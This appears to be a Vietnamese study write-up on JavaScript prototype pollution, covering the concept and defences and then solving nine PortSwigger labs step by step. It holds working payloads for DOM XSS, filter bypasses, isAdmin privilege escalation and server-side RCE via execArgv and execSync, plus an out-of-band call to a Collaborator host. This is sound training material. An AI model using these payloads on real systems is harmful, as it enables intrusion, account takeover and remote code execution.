









# Prototype Pollution

Source —> gadget —> sink

# Prototype trong javascript

khi goị `new Person()`, object mới này sẽ kế thừa tất cả thuộc tính từ `Person.prototype`

(thay vì tạo method `showFullName` trong object Person thì ta có thể tạo 1 prototype [nguyên mẫu] cho Person để tránh trùng lặp và đỡ tốn tài nguyên vì mỗi lần gọi `new Person` sẽ tạo 1 bản sao mới của hàm và sẽ có nhiều bản sao của method `showFullName`) 

# Giới thiệu

Prototype Pollution là 1 lỗ hổng cho phép attacker thêm thuộc tính bất kỳ vào `Object.prototype` (object gốc của tất cả object) ở global trong javascript. Các object khác có thể sẽ kết thừa từ `Object.prototype` và làm ảnh hưởng đến toàn bộ chương trình

Một số browser như Chrome cho phép truy cập vào prototype của object thông qua property `__proto__`

## Prototype chain

khi ta truy cập vào 1 property của object, JavaScript sẽ tìm property đó bên trong chính object, nếu không có thì sẽ tìm đến `prototype` của object, và cứ tiếp tục như thế cho đến khi gặp `Object.prototype` thì dừng và cho ra kết quả (undefined nếu không tìm thấy)

# Root Cause

Server cho phép ghi dữ liệu không kiểm soát vào Object.prototype (merge provery không an toàn)

Prototype pollution có thể dãn đến DOM XSS, Privilege escalation, RCE

# Cách phòng tránh

- Không cho phép thay đổi thuộc tính của object.prototype: `Object.freeze(Object.prototype)`
- Tạo object không thể kế thừa object.prototype: `Object.create(null)` (vẫn có thể chỉnh sửa các thuộc tính ngoài  object.prototype thủ công)
- Kiểm tra đầu vào, filter các thuộc tính như`__proto__, constructor, prototype`

# Practice

# **Client-side prototype pollution**

## **Lab1: [DOM XSS via client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution)**

Để hoàn thành lab ta cần thực hiện `alert()`

Thử thêm cặp `key:value` vào object.prototype thông qua url

payload: `?__proto__[test]=test`

Vào phần Inspect → Console → object.prototype kiểm tra

—> Đã thêm thuộc tính thành công !

Bây h ta sẽ tìm gadget nào có thể bị exploit

Trong file searchLogger.js lưu trên  page source code phụ trách search function

Phân tích:

- Tạo object `config` không có thuộc tính `transport_url`
- `Deparam` sẽ phân tách tham số truyền vào thành các cặp key:value (thuộc tính) của object config
- Phải làm cho `if(config.transport_url)` chạy để thực hiện payload thông qua `script.src` (<script src=payload>)

Thêm thuộc tính `transport_url` vào object.prototype có value là payload, khi này do config ko có `transport_url` ở dòng `if` nên nó sẽ tìm đến object.prototype thông qua `prototype chain` (lúc đầu có thể là undefined) và payload sẽ được truyền script vì dòng `if bây h là True` và dẫn đến alert()

payload: `?__proto__[transport_url]=data:,alert(1);` (`data:` cho phép nhúng trực tiếp javascript code vào url)

## Lab2: [DOM XSS via an alternative prototype pollution vector](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector)

Để hoàn thành lab ta cần thực hiện `alert()`

Thử truyền payload vào url

payload: `?__proto__[test]=test`

—> Thêm thuộc tính vào object.prototype ko thành công!

Thử syntax khác

payload: `?__proto__.test=test`

—> Thêm thành công !

Trong file searchLoggerAlternative.js

Phân tích:

- Tạo object `manager` không cso thuộc tính `sequence`
- Khi đó: let a = undefined || 1 (vì ko có `sequence`) —> a = 1 —> manager.sequence = 2 —> `eval()`

Lợi dụng `eval()` để thực hiện `alert()`

Tạo  thuộc tính `sequence` trong `object.prototype` có value=”alert(1)-”

Khi đó: let a = ”alert(1)-” || 1 —> a = ”alert(1)-” —> manager.sequence = ”alert(1)-1” 

—> `eval( ”alert(1)-1” )`

payload: `?__proto__.sequence=alert(1)-`

alert thành công !

## Lab3: [Client-side prototype pollution via flawed sanitization](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization)

Để hoàn thành lab ta cần bypass hàm **sanitization và** thực hiện `alert()`

Trong searchLoggerFiltered.js

Thử truyền payload vào url

payload: `?__proto__[test]=test`

payload không hoạt động vì hàm `sanitizeKey()` đã replace “__proto__” thành ‘’

Nhưng do hàm này chỉ replace có 1 lần nên ta có thể bypass bằng cách chèn “__proto__” vào ngay giữa “__proto__” —> `“**__pro__proto__to__”` —>** khi replace sẽ thành `“__proto__”`

?__**pro__proto__to__[test]=test**

—> Thêm thuộc tính vào object.prototype thành công !

payload: `?__**pro__proto__to__**[transport_url]=data:,alert(1);`

## Lab4: [Client-side prototype pollution in third-party libraries](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)

Lab này recommend sử dụng `DOM Invader` và thực hiện `alert(document.cookie)` trên máy của nạn nhân bằng cách gửi payload thông qua exploit server

Thêm extension `DOM Invader` vào browser của burpsuite

Sau khi reload lại lab thì DOM invader đã tìm được source để exploit bằng cách thông qua url

payload tìm thấy có dạng: `#__proto__[test]=test`

Nhấn vào Test

payload: `#__proto__[testproperty]=DOM_INVADER_PP_POC`

—> Thêm thuộc tính vào object.prototype thành công !

Nhấn Scan for gadgets

`DOM Invader` đã tự động tìm được gadget là `hitCallback`

Nhấn exploit

payload: `#__proto__[hitCallback]=alert%281%29`

—> alert thành công !

Trong exploit server —> Body —> tạo payload như sau:

—> Deliver exploit to victim

## **Lab5: [Client-side prototype pollution via browser APIs](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis)**

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis)
Để hoàn thành lab ta cần thực hiện `alert()`

Trong file searchLoggerConfigurable.js

`Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});`

Phân tích:

- Khởi tạo thuộc tính `transport_url` cho object `config` thông qua method `defineProperty()`
- Ko thể chỉnh sửa `transport_url` vì `{configurable: false, writable: false}`

Lưu ý rằng khi sử dụng method `defineProperty()` cần khai báo thuộc tính`value` như sau

Do value của `transport_url` không được khai báo nên khi này `transport_url.value = undefined` 

—> Ta sẽ tạo thuộc tích `value` trong Object.prototype và transport_url sẽ kế thừa `value` từ Object.prototype

payload: `?__proto__[value]=data:,alert(1);`

# **Server-side prototype pollution**

## **Lab6: [Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)**

Để hoàn thành lab cần vào admin pannel và `xóa carlos`

Đăng nhập `wiener:peter` —> Submit Billing and Delivery Address

HTTP request sẽ được gửi đi với các thông tin dưới dạng JSON-based input

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

`"foo":"bar"` đã hiện thỉ ở phần response —> tức là đã thêm thuộc tính vào server-side thành công !

Để ý rằng thuộc tính isAdmin không phải do user kiểm soát và nó có khả năng được kế thừa từ object.prototype

Sửa`"isAdmin":true` trong object.prototype

payload: `"__proto__": {"isAdmin":true}`

—> Sửa value của thuộc tính thành công !

Do thuộc tính được thêm thẳng vào server-side nên user nào cũng có thể làm admin —> refresh page

Vào admin panel → delete carlos

## **Lab7: [Detecting server-side prototype pollution without polluted property reflection](https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection)**

Lab này có mục đích giúp thực hành `non-destructive detection techniques`, lab sẽ không reflect những thay đổi mà ta đã POST trong HTTP request. 

To solve the lab, confirm the vulnerability by polluting `Object.prototype` in a way that triggers a noticeable but non-destructive change in the server's behavior.

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

—> Không có gì bất thường trong response

Thử làm cho server bị lỗi 

`“foo”: “bar”` đã được thêm vào server-side nhưng chỉhông hiển thi trong HTTP response (ko reflect)

Ta có thể tiếp cận trường hợp này bằng cách thử chèn những thuộc tính có khả năng là các thuộc tính trong phần configuration của server: Status code override, JSON spaces override, Charset override

Status code override:

payload: `"__proto__": {"status":444}`

Lúc này mỗi khi xảy ra lỗi, trong HTTP response sẽ có status code 444

## **Lab8: [Bypassing flawed input filters for server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution)**

Để hoàn thành lab cần vào admin pannel và `xóa carlos`

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

—> Không có thay đổi nào

khi error cũng không có thay đổi

Trong document của portswigger có gợi ý rằng ta có thể sử dụng `constructor.prototype` để bypass khi server đã filter `__proto__`

`myObject.constructor.prototype` tương tự `myObject.__proto__`

payload: `"constructor": {"prototype": {"foo":"bar"} }`

—> `"foo":"bar"` đã được thêm vào server-side và reflect thông qua HTTP response

payload: `"constructor": {"prototype": {"isAdmin":true} }`

## **Lab9: [Remote code execution via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution)**

link: [https://nodejs.org/api/child_process.html](https://nodejs.org/api/child_process.html)

Để hoàn thành lab cần RCE và xóa /home/carlos/morale.txt

Thử thêm thuộc tính vào object mà HTTP request gửi đi

payload: `"__proto__": {"foo":"bar"}`

Test payload:

"__proto__": {
"shell":"node",
"NODE_OPTIONS":"--inspect=[q3uj3i6yyfqge3n9qa2jkahqzh58tyhn.oastify.com](http://q3uj3i6yyfqge3n9qa2jkahqzh58tyhn.oastify.com/)\"\".oastify\"\".com"
}

Đã gửi DNS về burp collaborator thành công

—> Payload này dùng để kiểm tra xem server có thực hiện debug (—inspect) và gửi thông báo về burp collaborator dẫn đến RCE hay không

**`Never pass unsanitized user input to this function. Any input containing shell metacharacters may be used to trigger arbitrary command execution.`**

Khi gọi `execSync()`, Node.js sẽ chạy lệnh trong một tiến trình con và đợi cho đến khi tiến trình đó kết thúc.

`execArgv` là array chứa các tham số dòng lệnh để truyền cho tiến trình con 

payload:

`"__proto__": {"execArgv":["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]}`

